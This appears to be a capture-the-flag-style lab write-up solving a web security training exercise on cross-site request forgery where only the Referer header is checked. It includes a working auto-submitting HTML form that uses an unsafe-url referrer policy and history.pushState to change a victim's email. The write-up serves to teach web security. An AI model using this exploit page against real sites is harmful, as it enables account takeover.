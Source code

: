 # CSRF with broken Referer validation
# Objective
This lab's email change functionality is vulnerable to CSRF. It attempts to detect and block cross domain requests, but the detection mechanism can be bypassed.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis 
There is no `csrf` token (or any other `crsf` security measure) in `/my-account/change-email`. In order to send valid request to change email, `Referer` header have to contain correct domain. Lack of `Referer` header in request results in `400 Bad Request`.

|![](Images/image-57.png)|
|:--:| 
| *Test of change email functionality* |
|![](Images/image-58.png)|
| *Modified Referer header - header is validated in change email reqeust* |
|![](Images/image-58.png)|
| *Successful request with modified referer header* |

## Exploitation
Browsers strip query string from `Referer` header. This behaviour can be bypassed via `Referrer-Policy: unsafe-url` (SPELLING). Code `history.pushState()` allows to change the URL in the address bar without reloading the page - it preapares URL (`Referer` header) for next request. 

```html
<html>
  <head>
    <meta name="referrer" content="unsafe-url">
  </head>
  <body>
    <form action="https://<id>.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;test" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?q=https://<id>.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

|![](Images/image-60.png)|
|:--:| 
| *Exploit server configuration* |

